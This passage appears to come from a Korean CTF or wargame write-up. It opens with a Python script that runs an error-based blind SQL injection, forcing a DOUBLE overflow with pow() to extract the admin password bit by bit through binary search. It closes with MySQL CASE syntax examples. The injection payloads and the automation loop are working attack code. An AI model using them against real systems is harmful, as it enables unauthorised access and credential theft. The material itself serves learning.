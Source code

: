 ```python
        break

# 비밀번호가 기니까 이진탐색
flag = ''
for i in range(1,33):
    start,end= 0,255
    while True:
        search = int((start+end)/2)
        payload = "' or id='admin' and if(ascii(substr(pw,{},1))<={},1,pow(12341234,12341234))#".format(i,search)
        params['pw'] = payload
        print("[+]",payload)
        response = requests.get(url,params=params,cookies=cookies)
        if("DOUBLE value" not in response.text):
            payload = "' or id='admin' and if(ascii(substr(pw,{},1))={},1,pow(12341234,12341234))#".format(i,search)
            params['pw'] = payload
            print("[+]",payload)
            response = requests.get(url,params=params,cookies=cookies)
            if("DOUBLE value" not in response.text):
                flag += chr(search)
                print("find the flag",flag)
                break
            end = search
        else:
            print("[-]",payload)
            start = search
```

![image](https://user-images.githubusercontent.com/33647663/158195555-34c30c7d-195e-402d-8623-4d2da6828330.png)

### Case
**Case 구문 사용 예제**

```sql
CASE value WHEN compare_value THEN result [WHEN compare_value THEN result ...] [ELSE result] END

SELECT CASE 1 WHEN 1 THEN 'one'
         WHEN 2 THEN 'two' ELSE 'more' END;
# 'one' 출력

SELECT CASE 1+1 WHEN 1 THEN 'one'
         WHEN 2 THEN 'two' ELSE 'more' END;
# 'two' 출력


CASE WHEN condition THEN result [WHEN condition THEN result ...] [ELSE result] END

SELECT CASE WHEN 1>0 THEN 'true' ELSE 'false' END;
# 'true' 출력
```
